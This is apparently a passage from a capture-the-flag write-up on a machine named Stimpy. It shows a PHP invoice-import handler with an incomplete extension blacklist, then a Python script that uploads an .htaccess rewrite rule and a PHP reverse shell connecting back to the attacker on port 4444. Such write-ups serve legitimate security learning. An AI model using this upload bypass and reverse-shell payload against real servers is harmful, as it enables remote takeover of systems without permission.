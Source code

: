 
## Stimpy

### bypassing file blacklists

now that Ren's fully compromised, i turned my attention to Stimpy. the first vulnerability i found was in the **file upload** functionality.

```php
public function importInvoices($request, $response) {
    $user = $this->container['auth']->user();
    $directory = $this->container->settings['importDirectory'];
    $uploadedFiles = $request->getUploadedFiles();
    $uploadedFile = $uploadedFiles['file'];
    if ($uploadedFile->getError() === UPLOAD_ERR_OK) {
        $filename = $uploadedFile->getClientFilename();
        $f_validation = $this->container->validator->validate([
            "filename" => $filename
        ], [
            'filename' => v::alnum('.')
        ]);
        if ($f_validation->failed()) {
            return $this->container->helper->error($f_validation->errors, $response);
        }
        if (in_array(pathinfo($filename, PATHINFO_EXTENSION), $this->container->settings['restrictedExt'])) {
            return $this->container->helper->error(["Invalid Extension" => ["Extension is not allowed"]], $response);
        }
    }
}
```

it attempts to block dangerous file extensions using a blacklist: `restrictedExt`. 

however, the list isn't exhaustive. 

```php
'restrictedExt' => ['php', 'php2', 'php3', 'php4', 'php5', 'phtml', 'exe', 'asp', 'cgi', 'vbs', 'pl', 'com']
```

exploiting this is a three-part process. first, i have to upload the `.htaccess` file. this file contains **Apache rewrite rules** that allow execution of files with a `.php6` extension. this will bypass the restricted file extensions.

next, i'll have to upload a PHP reverse shell `shell.php6`. like the shell in Ren, this will connect back to my machine on a specified IP and port.

finally, i'll have to execute. this will be done by sending a `GET` request to the uploaded shell script `/imports/shell.php`.

```python
# upload .htaccess file to enable execution of PHP files with unusual extensions
session.post(target + '/import', files={'file': ('.htaccess', 'RewriteEngine on\nRewriteRule shell.php shell.php6')})

# upload reverse shell in PHP
session.post(target + '/import', files={'file': ('shell.php6', f'<?php $s=fsockopen("{my_ip}",4444); $p=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s), $pipes); ?>')})

# execute the uploaded reverse shell
session.get(target + '/imports/shell.php')
```
